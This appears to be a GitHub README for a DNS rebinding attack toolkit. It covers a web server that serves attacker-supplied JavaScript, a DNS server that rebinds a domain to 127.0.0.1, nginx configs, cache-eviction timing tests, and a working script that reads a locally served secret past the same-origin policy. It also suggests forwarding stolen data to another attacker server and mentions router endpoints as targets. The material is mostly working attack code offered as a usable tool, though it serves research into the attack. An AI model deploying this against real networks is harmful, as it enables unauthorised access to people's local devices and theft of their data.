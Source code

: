 Inspired by [@tavisio](https://bugs.chromium.org/p/project-zero/issues/detail?id=1471&desc=3)

This project is meant to be an All-in-one Toolkit to test further [DNS 
rebinding attacks](https://en.wikipedia.org/wiki/DNS_rebinding) and my take on understanding these kind of attacks. 
It consists of a web server and pseudo DNS server that  only responds to A queries.

The root index of the web server allowes to configure and run the attack with a
rudimentary web gui. See [dnsrebindtool.43z.one](http://dnsrebindtool.43z.one).

A basic nginx config to host the web server
```nginx
server {
  listen 80;
  server_name dnsrebindtool.43z.one;

  location / {
    proxy_pass http://localhost:5000;
  }
}
```

The /attack route of the web server reads the GET parameter `script`
that should provide basic64 encoded javascript and responds with the decoded code
(wraped around a setTimeout) embeded in a regular HTML page.

```bash
% curl "http://dnsrebindtool.43z.one/attack?script=YWxlcnQoMSk=" 
<html>
    <script>

    setTimeout(function(){
      alert(1) 
    }, 3000)

  </script>
</html
```

Within my registrar for the domain 43z.one I setup a NS record for the subdomain
`rebind` to point to the IP where this tool is hosted.
```
ns       A   81.4.124.10
rebind   NS  ns.43z.one
```

The DNS server responds only to A queries in this format

`evcmxfm4g . 81-4-124-10 . 127-0-0-1 .rebind.43z.one`

The first part (subdomain) is just some random id and should be generated for
every attack session (the web gui does this on every reload). Second comes the 
IP the DNS server should respond for the next 2 seconds and third the IP the 
server should respond after that time is passed.

```
$ date && nslookup -type=a evcmxfm4b.81-4-124-10.127-0-0-1.rebind.43z.one 
Fri Feb  2 21:18:20 CET 2018
Server:   8.8.8.8
Address:  8.8.8.8#53

Non-authoritative answer:
Name: evcmxfm4b.81-4-124-10.127-0-0-1.rebind.43z.one
Address: 81.4.124.10

$ date && nslookup -type=a evcmxfm4b.81-4-124-10.127-0-0-1.rebind.43z.one
Fri Feb  2 21:18:23 CET 2018
Server:   8.8.8.8
Address:  8.8.8.8#53

Non-authoritative answer:
Name: evcmxfm4b.81-4-124-10.127-0-0-1.rebind.43z.one
Address: 127.0.0.1
```
The last missing peace is a nginx config for the rebind domains.
Only the /attack route should be passed to the tool others should respond
with an error. This allows to attack other services on port 80 with all routes but
/attack. (like /api/monitoring/stats a endpoint my router exposes)

```
server {
  listen 80;
  server_name *.rebind.43z.one;

  location / {
    return 404;
  }

  location /attack {
    proxy_pass http://localhost:5000/attack;
  }
}
```

DNS Cache Eviction
```javascript
var xhr = new XMLHttpRequest()
xhr.open('GET', 'czg9g2olz.81-4-124-10.127-0-0-1.rebind.43z.one', false)
xhr.send()
// first time the browser sees this domain it queries the dns server
// and gets 81.4.124.10

// sleep for more than 2 sec

xhr.open('GET', 'czg9g2olz.81-4-124-10.127-0-0-1.rebind.43z.one', false)
xhr.send()
// still uses 81.4.124.10 (AND NOT 127.0.0.1)
// NO dns query happened browser used cached IP
```

This is a problem for this kind of attack. In order to work the browser has to
reissue a new dns query to get the second IP. In theory if you just wait long enough
between the requests a new query should happen.
My tests show though there is a faster but more aggressive approach.
It could be very likely this is setup specific. Needs more testing
I used the following script to measure the optimum value for the WAIT variable.
Tested on Chromium 62.0.3202.89 running on Debian buster/sid.

```javascript
var WAIT = 200
var start = Date.now()

var interval = setInterval(function(){
  var xhr = new XMLHttpRequest()
  xhr.open('GET', '//' + $REBIND_DOMAIN, false)

  xhr.send()

  if(xhr.status == 200){
    document.body.innerHTML = (Date.now() - start)/1000
    document.body.innerHTML += xhr.responseText
    clearInterval(interval)
    return
  }
}, WAIT)
```

| WAIT value in ms | requests chrome sends | Time until queries dns again |
| --- | --- | --- |
| 0  |700|60|
| 10 |700|60|
| 100|600|63|
| 120|500|63|
| 150|400|63|
| 180|400|75|
| 200|300|63|
| 220|300|69|
| 250|300|78|
| 280|300|87|
| 300|200|63|
| 320|200|67|
| 340|200|71|
| 360|200|75|
| 380|200|79|
| 400|200|83|
| 1000|100|103|

I started a new repo just to explore this [dns cache eviction tester](https://github.com/h43z/dns-cache-eviction)

Putting it all together and test it.
```bash
echo -e "HTTP/1.1 200 OK\n\n TOPSECRET" | sudo nc -lvp 80 -q1 127.0.0.1
```

This netcat instance serves some content I would like to get access to.
I keep the default rebind domain  
`$RANDOM$.81-4-124-10.127-0-0-1.rebind.43z.one`
and default script 

```javascript
var start = Date.now()

var interval = setInterval(function(){
  var xhr = new XMLHttpRequest()
  xhr.open('GET', '//' + $REBIND_DOMAIN, false)

  xhr.send()

  if(xhr.status == 200){
    document.body.innerHTML = (Date.now() - start)/1000
    document.body.innerHTML += xhr.responseText
    clearInterval(interval)
    return
  }
}, 200)

```
on [dnsrebindtool.43z.one](http://dnsrebindtool.43z.one) and hit the Attack button.
Open the dev tools network tab to see what is happening in the background.
For me after about 60 seconds fills up with the string `TOPSECRET` and the time
it took. DNS rebinding circumvented [SOP](https://en.wikipedia.org/wiki/Same-origin_policy).
To get the breached data out of the iframe one could use [Window.PostMessage()](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) or include code that forwards the data
to another attacker server within the script itself.
